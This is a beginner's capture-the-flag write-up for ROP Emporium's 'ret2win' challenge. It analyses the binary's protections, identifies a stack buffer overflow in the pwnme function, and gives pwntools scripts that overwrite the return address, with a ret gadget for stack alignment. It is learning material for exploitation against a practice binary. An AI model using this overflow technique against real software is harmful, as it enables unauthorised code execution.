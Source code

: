 ### Intro
THIS is my first time writing a solve of pwn challenge, here in github. All this in order to learn and share at the same time. For that i started solving challenges from this website https://ropemporium.com/.
Basically this is the solve for the first challenge : **ret2win**
## First steps
we have a ret2win challenge.
![[Pasted image 20241011230907.png]]
1. So let's started by knowing more about the binary.
![[Pasted image 20241011224424.png]]
using file command we can learn about : 
- “LSB” here stands for “least-significant byte” , as opposed to “MSB”, “most-significant byte”. It means that the binary is little-endian.
- the architecture of binary which is x86-64.
- dynamically linked : meaning calls needed functions outside the binary unlike statically linked which have functions compiled inside the binary .
- libc and loader versions .
- not stripped : the binary have symbols (variables and functions names) which a good thing.
2. check protections 
![[Pasted image 20241011225950.png]]
Using `checksec` we can see that there is no canary (potential buffer overflow) , no pie (addresses are not randomized and changing with each execution) , partial relro (we can overwrite a got table entry) and NX is enabled (we cannot execute a shell in stack)
3. disassembling and decompiling with cutter
Functions are listed
![[Pasted image 20241011221716.png]]
we see main,pwnme,and ret2win functions
main calls pwnme but ret2win function is never called.

![[Pasted image 20241011221945.png]]
pwnme function reads to 0x38 bytes knwing that the buffer size is 0x20 : it is a buffer overflow.

![[Pasted image 20241011222000.png]]
ret2win is ofc our win function : it cats the flag .
now we have to overwrite the return address in order to redirect execution to ret2win function.

so we need : 
- offset to get to the ret address
- address of ret2win function

from disassembly code we see that the offset is 0x28 bytes: (0x20 bytes of the buffer + 8 bytes of rbp) 
![[Pasted image 20241011222830.png]]

and win address is 0x00400756
4. exploit 
```python3
from pwn import * 
p=process("ret2win")
p.recvuntil(b"> ")
p.sendline(b"a"*0x28+p64(0x00400756))
p.interactive()
```
by running this we get abnormal behavior...
after some research we found it is a stack misalignment:
https://masm32.com/board/index.php?topic=7729.0 cuz in pwnme function we only have a push and no pop of the rbp.

to align it we add the ret address of any ret in binary.
![[Pasted image 20241011222940.png]]

Final exploit:
```python3
from pwn import * 
p=process("ret2win")
p.recvuntil(b"> ")
p.sendline(b"a"*0x28+p64(0x00400770)+p64(0x00400756))
p.interactive()
```
